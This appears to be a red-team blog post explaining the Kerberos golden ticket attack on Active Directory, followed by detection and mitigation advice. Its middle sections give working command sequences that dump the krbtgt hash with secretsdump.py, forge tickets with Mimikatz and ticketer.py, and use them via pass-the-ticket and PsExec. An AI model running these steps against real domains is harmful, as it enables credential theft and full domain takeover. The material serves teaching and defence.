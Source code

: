 ```yaml
---
title:  "Kerberos attacks 4-golden Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 4-golden Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## golden Ticket
* is a famous technique of impersonating users on an AD domain by abusing Kerberos authentication
* A Golden Ticket is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). This gives the attacker access to any resource on an Active Directory Domain
* Golden Ticket give attackers unrestricted access to networked resources and the ability to forge new tickets, allowing them to reside on networks indefinitely by being disguised as credentialed administrator-level users.






## Forging Kerberos Tickets
* Forging Kerberos tickets depends on the password hash available to the attacker
* Golden Ticket requires the KRBTGT password hash.
* Silver ticket requires the Service Account (either the computer account or user account) password hash.
* Create anywhere and user anywhere on the network, without elevated rights.

## requirements for forging TGT
 * Domain Name
 * SID
 * Domain KRBTGT Account NTLM password hash
 * Impersonate user
 
 
```
kerberos::golden  ## Name of the module  
/user:Administrator  ## username of which the TGT is generated
/domain:karim.net  ## Domain 
/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain 
/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys. 
/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk 
/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. 
/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes 
/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
```
## golden ticket with Mimikatz
## golden ticket with Impacket
used for lookupid python script to enumerate the Domain SID.
```
python3 lookupsid.py user/Administrator:password@ip
python3 lookupsid.py admin/Administrator:p@ssw0rd@192.168.128.140
```

<img src="/img/golden/sidk.PNG" alt="Getting-gz" width="800" height="150"> 

used secretsdump.py the python script for extracting Krbtgt hash
```
python3 secretsdump.py administrator:p@ssw0rd@192.168.128.140 -outputfile krbhash -user-status   
```

<img src="/img/golden/secretdump.PNG" alt="Getting-gz" width="800" height="150"> 

Use ticketer.py script that will create TGT/TGS tickets,Tickets duration is fixed to 10 years from now.
```
sudo ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
sudo python3 ticketer.py -nthash 564e72d3c6c1927de1d2f252665e7c54 -domain-sid S-1-5-21-750046758-1551849808-2392872301 -domain karim.net admin
```

<img src="/img/golden/crer.PNG" alt="Getting-gz" width="800" height="150"> 

Use ticket_converter.py script which will convert kirbi files into ccache file
```
sudo python3 ticketConverter.py admin.ccache ticket.kirbi  
```

<img src="/img/golden/convert.PNG" alt="Getting-gz" width="800" height="150"> 

 whenever you want to access the Domain server service you can use the ticket.kirbi file
```
kerberos::ptt ticket.kirbi
misc::cmd
```

<img src="/img/golden/connect1.PNG" alt="Getting-gz" width="800" height="150"> 

access the service.
```
PsExec64.exe \\10.0.0.1 cmd.exe
```

<img src="/img/golden/hh.PNG" alt="Getting-gz" width="800" height="150"> 

## golden ticket with Rubeus.exe
## Detection
 * detecting a golden ticket attack depends on the method used. If the Mimikatz tool was dropped in your environment, antivirus might identify and block it. That said, Mimikatz itself is very simple to modify, changing its hash and invalidating any hash-based detection. 
 *  detection will ultimately rely on watching for unusual behavior. This could look like accounts accessing systems they would not normally access or accounts authenticating with different accounts. It could also be SIDs that do not match the username or generic usernames in use that do not exist in the environment.
 * it is important to audit your user and service accounts on a regular basis. If you don’t know what is usual, detecting unusual activity is virtually impossible.
 
## Mitigation
* Limit Domain Admins from logging on to any other computers other than Domain Controllers and a handful of Admin servers (don’t let other admins log on to these servers) Delegate all other rights to custom admin groups. This greatly reduces the ability of an attacker to gain access to a Domain Controller’s Active Directory database
* Install endpoint protection to block attackers from loading modules like mimikatz & powershell scripts
* Limit privilege for Admin and Domain Administrator access.
* Alert on known behaviours that indicates Golden Ticket or other similar attacks.
* Implement multi-factor authentication (MFA) on all external authentication points, including VPN.
* Don’t have RDP open to the internet. Seriously.  Get RDP behind a VPN, and implement MFA on it.
* Fake credentials can be injected into the LSAS cache, which would be tempting to hackers. Seeing these “honeycreds” used would clearly indicate an issue.
* Perform the reset of the krbtgt account (twice) in accordance with your password reset policies, or quarterly.
* Enable Windows Defender Credential Guard on applicable systems (Windows 10 and Server 2016 and above). Do not use on domain controllers.
